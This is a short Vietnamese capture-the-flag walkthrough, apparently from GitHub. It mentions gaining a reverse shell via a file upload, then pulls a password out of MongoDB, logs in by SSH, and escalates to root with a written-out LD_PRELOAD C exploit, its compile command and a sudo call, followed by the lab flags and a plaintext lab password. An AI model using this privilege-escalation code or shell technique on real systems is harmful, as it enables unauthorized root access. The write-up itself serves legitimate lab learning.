nhưng có thông báo là thư mục bị vô hiệu hóa 

<img width="1267" height="754" alt="image" src="https://github.com/user-attachments/assets/86a60d25-28f2-4693-94cc-f9a69c5815d9" />

nhưng chỉ cần thêm tên tệp tôi tải lên và lắng nghe trên port 1234 

và tôi đã có shell 

<img width="1000" height="507" alt="image" src="https://github.com/user-attachments/assets/60d968a0-0597-4e06-b253-c9de4a111435" />

cờ người dùng ở đường dẫn /home/webdeveloper

63191e4ece37523c9fe6bb62a5e64d45

sau đó tôi tìm cách nâng quyền 

thử lệnh sudo -l và nhập password tôi đã đổi ở web kết quả không thành công 

<img width="953" height="648" alt="image" src="https://github.com/user-attachments/assets/16338781-1b43-460c-a7a3-21808e28dd25" />

<img width="578" height="467" alt="image" src="https://github.com/user-attachments/assets/05b7cd40-62d1-481b-a49b-f2ab64de8597" />

có tệp tôi là mongo nên tôi thử kết nối đến databases mongo

<img width="698" height="595" alt="image" src="https://github.com/user-attachments/assets/2f9cd6b9-9829-4b5a-b785-89749d1c7fb9" />

<img width="905" height="473" alt="image" src="https://github.com/user-attachments/assets/efe187af-a1f3-45a9-a805-eed21f5922ad" />

vậy là tôi đã có password của người dùng là BahamasChapp123!@#

sau đó tôi đăng nhập bằng ssh để có shell ổn định hơn 

<img width="1152" height="571" alt="image" src="https://github.com/user-attachments/assets/8c3e051b-26b9-478c-b675-8ccab69d3342" />

cd /tmp

nano shell.c

#include <stdio.h>

#include <sys/types.h>

#include <stdlib.h>

void _init() {

unsetenv("LD_PRELOAD");

setgid(0);

setuid(0);

system("/bin/bash");

}

<img width="1272" height="449" alt="image" src="https://github.com/user-attachments/assets/c1c98424-783b-45bf-9d73-79b4628bc6a9" />

gcc shell.c -o exploit -fPIC -shared -nostartfiles -w

sudo LD_PRELOAD=/tmp/exploit /usr/bin/sky_backup_utility

<img width="845" height="228" alt="image" src="https://github.com/user-attachments/assets/23441887-e6e5-47cd-8cba-90509822f6a5" />

cờ root : 3a62d897c40a815ecbe267df2f533ac6
